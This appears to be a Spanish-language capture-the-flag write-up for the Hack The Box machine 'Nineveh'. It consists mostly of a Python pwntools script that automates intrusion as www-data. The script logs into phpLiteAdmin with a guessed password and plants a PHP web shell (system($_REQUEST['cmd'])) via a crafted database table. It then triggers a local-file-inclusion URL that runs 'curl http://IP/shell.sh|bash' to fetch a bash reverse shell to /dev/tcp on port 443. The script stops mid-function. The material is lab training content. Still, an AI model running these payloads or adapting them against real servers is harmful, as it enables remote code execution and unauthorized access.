 Script que automatiza la intrusion como www-data:

```python
#!/usr/bin/env python3

#Crearos un archivo llamado shell.sh que contenga "#!/bin/bash\n\n bash -i >& /dev/tcp/IP/443 0>&1" y le dais permisos de ejecucion "chmod +x shell.sh"
#Cambiar la IP de variables globales 
#Agregar al /etc/hosts el dominio nineveh.htb

from pwn import *
import sys
import time
import threading
import requests
import urllib3
import subprocess

signal.signal(signal.SIGINT, signal.SIG_DFL)

#Variables globales
IP = "10.10.16.198" # <= cambiar!
url_main = "https://nineveh.htb/db/index.php"
url_create_table = "https://nineveh.htb/db/index.php?action=table_create&confirm=1"
url_LFI = "http://nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/hack.php&cmd=curl http://%s/shell.sh|bash" %IP
url_login2 = "http://nineveh.htb/department/login.php"
lport = 443

#Funciones
def obtainShell():

    try:
        urllib3.disable_warnings()
        s = requests.Session()
        s.verify = False
        s.keep_alive = False
        login_data = {
            'password' : 'password123',
            'remember' : 'yes',
            'login' : 'Log+In',
            'proc_login' : 'true'
        }
        r = s.post(url_main, data=login_data)
        p1 = log.progress("Iniciando Sesion como Admin:password123")
        cookie_data = {
            'pla3412' : 'password123',
            'pla3412_salt' : '0',
            'PHPSESSID' : '6mg8bpr1556fhre675t44ptsg7'
        }
        create_db_data = {
            'new_dbname'  : 'hack.php'
        }
        p2 = log.progress("\n[*]Se ha agregado una base de datos: hack.php\n")
        r = s.post(url_main, cookies=cookie_data, data=create_db_data)
        create_table_data = {
            'tablename' : 'shell',
            'rows' : '1',
            '0_field' : '<?php system($_REQUEST["cmd"]); ?>',
            '0_type' : 'TEXT',
            '0_defaultvalue' : ''
        }
        r = s.post(url_create_table, cookies=cookie_data, data=create_table_data)
        p3 = log.progress("\nSe ha agregado una nueva tabla a la base de datos con el payload\n")
```